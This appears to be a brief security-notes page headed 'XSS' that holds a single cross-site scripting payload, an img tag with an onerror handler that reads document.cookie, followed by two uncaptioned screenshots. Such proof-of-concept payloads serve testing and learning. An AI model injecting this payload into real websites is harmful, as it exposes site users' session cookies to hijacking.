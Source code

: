 # XSS

```bash
#"><img src=/ onerror=alert(document.cookie)>
```

<figure><img src="../../../../../.gitbook/assets/Untitled.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/Untitled 1 (3).png" alt=""><figcaption></figcaption></figure>


